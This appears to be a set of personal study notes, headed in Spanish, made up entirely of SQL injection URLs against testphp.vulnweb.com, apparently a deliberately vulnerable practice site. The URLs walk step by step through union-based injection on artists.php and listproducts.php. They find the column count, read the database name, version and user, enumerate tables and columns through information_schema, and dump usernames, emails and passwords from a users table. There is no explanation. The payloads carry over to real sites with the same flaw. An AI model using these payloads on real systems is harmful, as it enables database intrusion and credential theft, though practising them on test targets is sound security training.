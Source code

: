 http://testphp.vulnweb.com

ataque atravez de la URL

http://testphp.vulnweb.com/artists.php?artist=1 order by 1

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,version(),current_user()

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 7,1

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(email),3 from users

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(pass),3 from users

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname),3 from users

http://testphp.vulnweb.com/listproducts.php?cat=1 -1 union all select 1,2,3,4,5,6,7,8,table_name,10,11 from information_schema.tables

http://testphp.vulnweb.com/listproducts.php?cat=1 AND 1=1 UNION ALL SELECT 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema='acuart' 

http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,column_name,10,11 from information_schema.columns where table_schema='acuart' and table_name='users'

http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,group_concat(uname,0x10a,email,pass),8,9,10,11 FROM users